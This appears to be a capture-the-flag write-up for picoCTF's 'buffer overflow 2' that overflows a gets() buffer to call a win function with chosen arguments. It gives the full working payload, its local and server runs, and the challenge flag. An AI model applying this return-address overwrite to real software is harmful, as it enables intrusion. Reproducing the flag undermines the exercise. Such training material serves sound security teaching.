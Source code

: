 # buffer overflow 2
## Question
>  Alright, this time you'll need to control some arguments. Can you get the flag from this [program](files/vuln)? You can find it in `/problems/buffer-overflow-2_4_ca1cb0da49310dd45c811348a235d257` on the shell server. [Source](files/vuln.c). 

## Hint
>Try using gdb to print out the stack once you write to it!

# Solution
## Code Analysis
Let's have a look at the code. The main function asks for a string and calls the `vuln` function:
```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

The `vuln` function sets a buffer of 100 bytes, puts the string on it and displays it.
```c
define BUFSIZE 100

// ...
// [SNIP]
// ...

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```

The first objective is obviously to jump to the `win` function where our flag will be displayed:
```c
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}
```

As you can see though, the flag will only be displayed once the 2 arguments passed to this function are correct.

## First part: call the "win" function
We can execute this first part locally (on your machine). Make sure you have setup your system to run 32bit executables.

Let's find the address of the segfault.
~~~~
$ python -c "print 'A'*112" | ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
$ dmesg | tail
[    7.729480] AVX2 version of gcm_enc/dec engaged.
[    7.729481] AES CTR mode by8 optimization enabled
[   19.494662] Bluetooth: RFCOMM TTY layer initialized
[   19.494667] Bluetooth: RFCOMM socket layer initialized
[   19.494671] Bluetooth: RFCOMM ver 1.11
[   21.002090] rfkill: input handler disabled
[   77.448898] show_signal_msg: 30 callbacks suppressed
[   77.448900] vuln[1824]: segfault at fbad2883 ip 00000000080486cf sp 00000000fbad2883 error 4 in vuln[8048000+1000]
[   77.448905] Code: f4 e8 05 fe ff ff 83 c4 10 83 ec 0c 68 d1 87 04 08 e8 a5 fd ff ff 83 c4 10 e8 83 ff ff ff b8 00 00 00 00 8b 4d fc c9 8d 61 fc <c3> 55 57 56 53 e8 27 fe ff ff 81 c3 27 19 00 00 83 ec 0c 8b 6c 24
[   90.121523] traps: vuln[1916] general protection fault ip:8048600 sp:ffb75e80 error:0 in vuln[8048000+1000]
~~~~

OK, we don't have the address of the segfault. Let's increase our string of 4 more bytes:
~~~~
$ python -c "print 'A'*116" | ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
$ dmesg | tail
[   19.494662] Bluetooth: RFCOMM TTY layer initialized
[   19.494667] Bluetooth: RFCOMM socket layer initialized
[   19.494671] Bluetooth: RFCOMM ver 1.11
[   21.002090] rfkill: input handler disabled
[   77.448898] show_signal_msg: 30 callbacks suppressed
[   77.448900] vuln[1824]: segfault at fbad2883 ip 00000000080486cf sp 00000000fbad2883 error 4 in vuln[8048000+1000]
[   77.448905] Code: f4 e8 05 fe ff ff 83 c4 10 83 ec 0c 68 d1 87 04 08 e8 a5 fd ff ff 83 c4 10 e8 83 ff ff ff b8 00 00 00 00 8b 4d fc c9 8d 61 fc <c3> 55 57 56 53 e8 27 fe ff ff 81 c3 27 19 00 00 83 ec 0c 8b 6c 24
[   90.121523] traps: vuln[1916] general protection fault ip:8048600 sp:ffb75e80 error:0 in vuln[8048000+1000]
[  103.519655] vuln[1933]: segfault at 41414141 ip 0000000041414141 sp 00000000ffdc1d90 error 14 in libc-2.27.so[f7d9a000+1d5000]
[  103.519663] Code: Bad RIP value.
~~~~

OK, we know that our string should be 112 bytes long. Now, let's find out the address of our `win` function:
~~~~
$ readelf -s vuln | grep win
    66: 080485cb   123 FUNC    GLOBAL DEFAULT   14 win
~~~~

Our `win` function is located at memory address `0x80485cb`. Let's encode it:
~~~~
$ python -c "import struct; print(repr(struct.pack('<I', 0x80485cb)))"
'\xcb\x85\x04\x08'
~~~~

or with the `pwn` module:
~~~~
$ python -c "import pwn; print(pwn.p32(0x80485cb))"
b'\xcb\x85\x04\x08'
~~~~

Now let's exploit that locally to see if we jump to the `win` function:
~~~~
$ python -c "print 'A'*112 + '\xcb\x85\x04\x08'" | ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅
Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.
~~~~

OK, looks like it's working because we see the message indicating that the flag file is missing. Let's create a fake one:
~~~~
$ echo -n "picoCTF{thisistheflag}" > flag.txt
$ python -c "print 'A'*112 + '\xcb\x85\x04\x08'" | ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅
Segmentation fault (core dumped)
~~~~

## Second part: inject the arguments
Now, we are able to jump to the `win` function, but this latest expects 2 parameters. Let's first encode them:
~~~~
$ python
Python 3.8.2 (default, Apr  1 2020, 15:52:55) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import pwn
>>> pwn.p32(0xdeadbeef)
b'\xef\xbe\xad\xde'
>>> pwn.p32(0xdeadc0de)
b'\xde\xc0\xad\xde'
~~~~

Now, we can build our payload. It will concatenate these items:
* `'A' * 112` to overflow the string buffer
* `'\xcb\x85\x04\x08'` is the address of the `win` function where we want to jump
* `'B'*4`: we need to add 4 bytes for the return address of the `win` function (stack = EBP > return address > 1st arg > 2nd arg)
* `'\xef\xbe\xad\xde'`: our first argument
* `'\xde\xc0\xad\xde'`: our second argument

Let's try locally:
~~~~
$ python -c "print 'A'*112 + '\xcb\x85\x04\x08' + 'B'*4 + '\xef\xbe\xad\xde' + '\xde\xc0\xad\xde'" | ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅BBBBﾭ�����
picoCTF{thisistheflag}Segmentation fault (core dumped)
~~~~

It works. Now, let's execute that on the server:
~~~~
$ python -c "print 'A'*112 + '\xcb\x85\x04\x08' + 'B'*4 + '\xef\xbe\xad\xde' + '\xde\xc0\xad\xde'" | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBﾭ�����
picoCTF{addr3ss3s_ar3_3asy30723282}Segmentation fault (core dumped)
~~~~

# Flag
`picoCTF{addr3ss3s_ar3_3asy30723282}`
